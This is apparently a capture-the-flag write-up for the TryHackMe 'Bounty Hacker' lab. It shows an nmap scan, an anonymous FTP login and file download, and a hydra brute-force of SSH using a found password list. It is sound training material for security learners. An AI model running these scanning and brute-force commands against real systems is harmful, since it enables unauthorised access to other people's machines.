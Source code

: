 # Bounty Hacker 
 ~ https://tryhackme.com/room/cowboyhacker
* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")

<br>

![bonty intro](https://user-images.githubusercontent.com/112984045/200177378-c657e25e-8fa7-43fa-b5de-7c34aa08ee05.png)
 ~ the IP will be given once once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![bonty nmap](https://user-images.githubusercontent.com/112984045/200179161-11ae6f38-9148-47f6-acbc-267679af2992.png)
  <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
 ![bonty portscanner](https://user-images.githubusercontent.com/112984045/200180020-c653c656-2254-4224-b674-866404b281eb.png)<br>
  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 ## FOOTHOLD
 
 * `the ftp port 21 is Anonymous FTP login allowed (FTP code 230)`
 ![bonty ftpmarked](https://user-images.githubusercontent.com/112984045/200180232-5e8d8e21-8bdc-4e18-b1c6-f7f3a30ce9ba.png)
 <br> ~ Therefore we can login to ftp without password by using USERNAME: Anonymous.
 
 
 ![bonty ftp login](https://user-images.githubusercontent.com/112984045/200180807-8c088b60-5245-4a8e-8fd2-5261e67f2263.png)
 <br> ~ After login have observed the files using the command:
 ```bash
 ls -la
 ```
 <br>
 
 * As we cannot read the files on shell, we will download those files to our local system using commands:
 ``` bash
 get locks.txt
 ```
 ```bash
 get task.txt
 ```
 <br>
 
 * Now we can read the content in the files using command:
 ``` bash
 cat locks.txt
 ```
 ![bonty locks](https://user-images.githubusercontent.com/112984045/200181166-706202a0-397a-4215-aaea-b415642294d5.png)
  <br> ~ This file looks like password list, This could be helpfull for any further bruteforce.
  <br>
  
  ``` bash
  cat tash.txt
  ```
  ![bonty task](https://user-images.githubusercontent.com/112984045/200181361-2a32ec55-cc5d-4cfc-9312-54712a80668b.png)
  <br> ~ There is a message which is written by 'lin'
  ![bonty 3](https://user-images.githubusercontent.com/112984045/200181716-bc85faea-1009-495f-a21d-7e7a36c1fdc9.png)
  <br>
  
  `* As we have login access to ftp port hence there is only port 22 which could be bruteforce using locks.txt i.e ssh`
   ![bonty 4](https://user-images.githubusercontent.com/112984045/200181900-16b07e3f-d763-443a-9a8b-b097ea46b0ed.png)
   <br>
   
   *As we have username: 'lin' and password list: locks.txt. We can use hydra tool for bruteforcing ssh server.
   <br>command:
   ```bash
   hydra -l lin -P locks.txt ssh://<IP>
   ```
   <br>
   
   * After logging in to ssh we can look for file contents and read them using the same commands :
   ```bash 
   ls -la
   ```
   ```bash
   cat user.txt
   ```
   
   
   
   
